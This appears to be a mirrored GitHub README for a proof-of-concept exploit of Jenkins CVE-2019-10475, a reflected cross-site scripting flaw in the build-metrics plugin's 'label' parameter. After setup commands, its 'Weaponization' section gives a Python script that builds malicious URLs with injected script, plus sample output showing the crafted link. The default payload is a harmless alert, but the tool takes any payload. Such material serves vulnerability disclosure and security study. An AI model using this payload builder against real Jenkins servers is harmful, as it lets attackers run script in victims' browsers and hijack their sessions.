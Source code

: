 # CVE-2019-10475

null

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/vesche](https://github.com/vesche) |
| Url      | [https://github.com/vesche/CVE-2019-10475](https://github.com/vesche/CVE-2019-10475)                                               |
| Stars    | 14                                                          |
| License  | The Unlicense                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2019-10475

Quick POC for Jenkins [CVE-2019-10475](https://nvd.nist.gov/vuln/detail/CVE-2019-10475) / [SECURITY-1490](https://jenkins.io/security/advisory/2019-10-23/#SECURITY-1490) reported on 2019-10-23. The issue is within the [build-metrics](https://plugins.jenkins.io/build-metrics) plugin which generates some basic build metrics. It's commonly used with the Jenkins sidebar links plugin.

This is a simple & generic reflected XSS vulnerability. The issue is that the plugin does not properly escape the `label` query parameter.

![0](scrots/0.png)

## Setup

POC was done on Debian 10 (Buster), Jenkins 2.203 (latest 2019-11-05), and build-metrics 1.3.

```bash
# install jenkins
sudo apt-get install daemon psmisc net-tools openjdk-11-jre
wget -q -O - https://pkg.jenkins.io/debian/jenkins.io.key | sudo apt-key add -
wget https://pkg.jenkins.io/debian/binary/jenkins_2.203_all.deb
dpkg -i jenkins_2.203_all.deb
sudo systemctl status jenkins
# activate using admin password
sudo cat /var/lib/jenkins/secrets/initialAdminPassword
# get jenkins cli
wget http://localhost:8080/jnlpJars/jenkins-cli.jar
# install plugins
java -jar ./jenkins-cli.jar -s "http://localhost:8080" -auth admin:password -noKeyAuth install-plugin global-build-stats -restart
java -jar ./jenkins-cli.jar -s "http://localhost:8080" -auth admin:password -noKeyAuth install-plugin build-metrics -restart
```

## Exploit POC

The vulnearble plugin can be found at `http://localhost:8080/plugin/build-metrics/`, the vulnerable parameter is `label`. We can inject a simple script like so:

![1](scrots/1.png)

## Weaponization

See `CVE-2019-10475.py`, it can be used to build malicious payloads:

```python
#!/usr/bin/env python

import sys
import argparse

VULN_URL = '''{base_url}/plugin/build-metrics/getBuildStats?label={inject}&range=2&rangeUnits=Weeks&jobFilteringType=ALL&jobFilter=&nodeFilteringType=ALL&nodeFilter=&launcherFilteringType=ALL&launcherFilter=&causeFilteringType=ALL&causeFilter=&Jenkins-Crumb=4412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96&json=%7B%22label%22%3A+%22Search+Results%22%2C+%22range%22%3A+%222%22%2C+%22rangeUnits%22%3A+%22Weeks%22%2C+%22jobFilteringType%22%3A+%22ALL%22%2C+%22jobNameRegex%22%3A+%22%22%2C+%22jobFilter%22%3A+%22%22%2C+%22nodeFilteringType%22%3A+%22ALL%22%2C+%22nodeNameRegex%22%3A+%22%22%2C+%22nodeFilter%22%3A+%22%22%2C+%22launcherFilteringType%22%3A+%22ALL%22%2C+%22launcherNameRegex%22%3A+%22%22%2C+%22launcherFilter%22%3A+%22%22%2C+%22causeFilteringType%22%3A+%22ALL%22%2C+%22causeNameRegex%22%3A+%22%22%2C+%22causeFilter%22%3A+%22%22%2C+%22Jenkins-Crumb%22%3A+%224412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96%22%7D&Submit=Search'''


def get_parser():
    parser = argparse.ArgumentParser(description='CVE-2019-10475')
    parser.add_argument('-p', '--port', help='port', default=80, type=int)
    parser.add_argument('-d', '--domain', help='domain', default='localhost', type=str)
    parser.add_argument('-i', '--inject', help='inject', default='<script>alert("CVE-2019-10475")</script>', type=str)
    return parser


def main():
    parser = get_parser()
    args = vars(parser.parse_args())
    port = args['port']
    domain = args['domain']
    inject = args['inject']
    if port == 80:
        base_url = f'http://{domain}'
    elif port == 443:
        base_url = f'https://{domain}'
    else:
        base_url = f'http://{domain}:{port}'
    build_url = VULN_URL.format(base_url=base_url, inject=inject)
    print(build_url)
    return 0


if __name__ == '__main__':
    sys.exit(main())
```

Usage:
```
$ python3 CVE-2019-10475.py --help
usage: CVE-2019-10475.py [-h] [-p PORT] [-d DOMAIN] [-i INJECT]

CVE-2019-10475

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  port
  -d DOMAIN, --domain DOMAIN
                        domain
  -i INJECT, --inject INJECT
                        inject

$ python3 CVE-2019-10475.py -p 8080 -d 192.168.1.75
http://192.168.1.75:8080/plugin/build-metrics/getBuildStats?label=<script>alert("CVE-2019-10475")</script>&range=2&rangeUnits=Weeks&jobFilteringType=ALL&jobFilter=&nodeFilteringType=ALL&nodeFilter=&launcherFilteringType=ALL&launcherFilter=&causeFilteringType=ALL&causeFilter=&Jenkins-Crumb=4412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96&json=%7B%22label%22%3A+%22Search+Results%22%2C+%22range%22%3A+%222%22%2C+%22rangeUnits%22%3A+%22Weeks%22%2C+%22jobFilteringType%22%3A+%22ALL%22%2C+%22jobNameRegex%22%3A+%22%22%2C+%22jobFilter%22%3A+%22%22%2C+%22nodeFilteringType%22%3A+%22ALL%22%2C+%22nodeNameRegex%22%3A+%22%22%2C+%22nodeFilter%22%3A+%22%22%2C+%22launcherFilteringType%22%3A+%22ALL%22%2C+%22launcherNameRegex%22%3A+%22%22%2C+%22launcherFilter%22%3A+%22%22%2C+%22causeFilteringType%22%3A+%22ALL%22%2C+%22causeNameRegex%22%3A+%22%22%2C+%22causeFilter%22%3A+%22%22%2C+%22Jenkins-Crumb%22%3A+%224412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96%22%7D&Submit=Search
```



## Get the content

```
git clone https://github.com/vesche/CVE-2019-10475
cd CVE-2019-10475
```

{% embed url="https://github.com/vesche/CVE-2019-10475" %}

<figure><img src="https://avatars.githubusercontent.com/u/8083281?v=4" alt=""><figcaption><p>vesche</p></figcaption></figure>
